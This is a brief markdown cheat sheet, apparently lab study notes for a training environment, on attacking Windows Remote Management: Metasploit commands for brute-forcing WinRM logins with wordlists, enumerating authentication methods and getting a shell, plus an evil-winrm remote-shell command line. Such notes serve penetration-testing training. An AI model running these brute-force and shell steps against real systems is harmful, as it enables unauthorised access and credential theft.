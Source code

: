 # WinRM

---

#### Brute-Forcing with Metasploit

msfconsole -q
use auxiliary/scanner/winrm/winrm_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set PASSWORD anything
exploit

#### Enumerating Authentification Method using Metasploit

msfconsole -q
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS demo.ine.local
exploit

#### Getting Shell with Metasploit

use exploit/windows/winrm/winrm_script_exec
set RHOSTS demo.ine.local
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
exploit

---

crackmapexec is a tool which is able to brutce-force user credentials out of of WinRM


another script would be "evil-winrm" which enables us a command shell session on
the target system.

evil-winrm.rb -u administrator -p 'password123' -i <target_ip>
